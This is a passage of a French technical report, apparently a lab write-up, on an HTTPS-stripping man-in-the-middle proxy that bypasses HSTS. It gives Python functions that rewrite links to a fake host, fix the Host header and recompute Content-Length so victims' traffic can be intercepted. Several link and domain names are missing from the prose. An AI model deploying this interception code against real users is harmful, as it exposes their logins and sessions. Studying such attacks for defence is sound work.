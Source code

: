 \subparagraph{Transformation des liens \\}

Dans cette fonction, nous utilisons une expression régulière afin de remplacer tous les liens  en .

\begin{verbatim}
def __replace_https_to_http(self, data):
    return re.sub(b'https://' + bytes(FORWARD_HOST_HSTS),
                  b'http://' + bytes(FAKE_HOST), data)
\end{verbatim}

\subparagraph{Modification de l'entête Host}

Lorsque la victime est redirigée vers un lien , l'entête Host de ses requêtes sera erronée. Cette fonction modifie cette entête pour que le serveur puisse recevoir un Host correct.

\begin{verbatim}
def __replace_host(self, data):
    return re.sub(b'Host: ' + bytes(FAKE_HOST),
                  b'Host: ' + bytes(FORWARD_HOST_HSTS), data)
\end{verbatim}


\subparagraph{Recalcul de l'entête Content-Length}

La taille de la requête étant modifiée par le proxy, celui-ci doit recalculer l'entête Content-Length en se basant sur la chaîne "{\textbackslash}r{\textbackslash}n{\textbackslash}r{\textbackslash}n" signalant la fin des entêtes dans le protocole HTTP.

\begin{verbatim}
def __replace_content_length(self, data):
    try:
        idx = data.index(b"\r\n\r\n")
        length = len(data) - idx - 4
        return re.sub(b'Content-Length: (\d+)',
                      b'Content-Length: %d' % length, data, 1)
    except:
        return data
\end{verbatim}

\subsubsection{Étape 3 : Pendant l'attaque}

Lorsque l'attaque est lancée, on peut voir que le lien sensible  est remplacé par .
La machine immortal est donc capable d'intercepter les échanges réalisés sur le domaine .

